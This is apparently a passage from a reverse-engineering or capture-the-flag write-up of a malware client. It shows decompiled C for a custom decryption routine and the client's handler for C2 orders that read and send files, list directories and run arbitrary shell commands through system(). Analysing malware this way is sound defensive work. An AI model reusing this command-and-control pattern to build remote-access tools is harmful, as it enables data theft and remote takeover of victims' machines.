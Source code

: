 ````C
}
````

Here is the algorithm used in `decrypt_info` : 

```C
__int64 __fastcall decrypt_info(void *data, unsigned __int64 size_of_data, int keyidx)
{
/* [eluded for brievty] */
  v5 = keyarr[keyidx];
  for ( i = 0; size_of_data > i; i += 8 )
  {
    v9 = *(_QWORD *)((char *)data + i);
    for ( j = 0; j <= 3; ++j )
    {
      v3 = sub_40137F(v9, 12LL);
      v10 = (((v5 ^ sub_401362(v5 ^ v3, 39LL)) - 0x318904A2B5CDE680LL) ^ 0x146739AB2C8DE0F5LL) + 0x4E89C0AB67D25150LL;
      v7 = 0LL;
      for ( k = 0; k <= 7; ++k )
        v7 |= (unsigned __int64)(unsigned __int8)sbox_decrypt[(unsigned __int8)(v10 >> (8 * (unsigned __int8)k))] << (8 * (unsigned __int8)k);
      v9 = v5 ^ sub_40137F(v5 ^ v7, 17LL);
    }
    *(_QWORD *)((char *)data + i) = v9;
  }
  return 0LL;
}
```

The algorithm isn't that complicated, but we wont be reimplementing it in C, because this might be the cause of loss of time and debugging, which we can avoid.

## What are we looking for now?

Looking at the client routine, we can see which orders the C2 can send to it's client : 

```C
  switch ( order_from_c2 )
  {
    case 37:
      filename = ptr->data;
      stream = fopen(ptr->data, "r");
      printf("DO_CAT: %s\n", ptr->data);
      if ( stream && !fseek(stream, 0LL, 2) )
      {
        /* [reading a file and sending it] */
      }
      break;
    case 31:
      name = ptr->data;
      dirp = opendir(ptr->data);
      printf("DO_LIST : %s\n", ptr->data);
      if ( dirp )
      {
        /* [listing files in directory] */
      }
      break;
    case 42:
      command = ptr->data;
      printf("DO_EXEC: %s\n", ptr->data);
      system(ptr->data);
      strcpy(src, "exec done");
		/* [exec with a system command] */
      break;
```